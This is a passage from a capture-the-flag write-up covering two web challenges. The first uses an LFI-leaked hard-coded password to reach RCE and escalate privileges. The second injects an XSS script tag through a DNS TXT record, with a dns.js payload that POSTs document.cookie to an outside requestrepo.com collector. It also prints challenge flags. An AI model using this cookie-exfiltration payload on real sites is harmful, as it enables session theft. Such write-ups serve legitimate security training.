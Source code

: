 We need to get the admin password, but we can't read /proc/self/environ. We dirbust and find `/background.php` which contains the password (we used the same LFI trick to get the source code):

```php
<?php
$password = "xyz1337";
echo "404";

header('Location: /');
```

With the password we can get RCE by escaping out of printf in the exec function. We need to get a reverse shell as we need to escalate privileges to get the flag.

Only the `mov` user can access the flag, meanwhile we are `www-data`. We run linpeas.sh but there's no thing that we can exploit. 

After some guessing we find that the password for `mov` user is hidden in the `jquery-3.6.0.min.js` file at the end: `cmFtYm8=` which base64 decoded is `rambo`. We then `su` as `mov` and we get the flag:

**RST{QbpNmAvVHwd4sBqu3wS4TuFxSLue}**

<a name="dnslookup"></a>
# DNS lookup (482) - web

Description:
```
Dragos has created a DNS lookup application and authentication system. Can you exploit the app and get admin access?

Challenge link: http://vps-f8bcd6cb.vps.ovh.net/dns-tools/

Note: The exploit must be sent to Dragos on the forum via PM in order to progress.

Author: Dragos
```

Reflected XSS in the TXT data of the domain's DNS record. Some domain providers like Namecheap won't allow XSS payloads so a custom DNS server is required. This is a perfect use case for [https://requestrepo.com](https://requestrepo.com), unfortunately the dig command didn't work for subdomains :(, ended up having to use the main domain for XSS.

The TXT:

`<script src="//rasp.go.ro/dns.js" ></script>`

dns.js

```javascript
fetch('//p4g52vv3.requestrepo.com', {'method':'POST', 'body':document.cookie});
```

**RST{db80a51dac599ff8a170b05b3c5b6c40}**

<a name="eatsafe"></a>
# Eat safe (496) - web
